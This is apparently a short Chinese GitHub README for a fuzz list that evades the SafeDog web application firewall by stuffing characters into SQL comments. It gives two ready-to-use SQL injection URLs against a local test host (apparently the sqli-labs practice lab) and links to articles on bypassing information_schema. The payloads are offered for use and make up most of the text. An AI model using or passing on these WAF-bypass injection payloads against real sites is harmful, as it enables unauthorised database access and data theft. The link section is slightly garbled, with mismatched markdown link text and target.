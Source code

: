 # bypass
安全狗bypass

sqlifuzz.txt 文件内容
主要是在注释符/**/ 中添加其他字符，用来绕过安全狗waf

使用 
```
http://192.168.0.101/Less-1/?id=1' and/*/!/%%%*/1=1 -- - 
http://192.168.0.101/Less-1/?id=1' and/*/!/%%%*/1=2 -- -
```
文章：

```
[https://johnfrod.top/%E5%AE%89%E5%85%A8/%E6%97%A0%E5%88%97%E5%90%8D%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87information_schema/
https://blog.csdn.net/qq_36618918/article/details/129265271](https://blog.csdn.net/qq_18193739/article/details/131993808)https://blog.csdn.net/qq_18193739/article/details/131993808
```
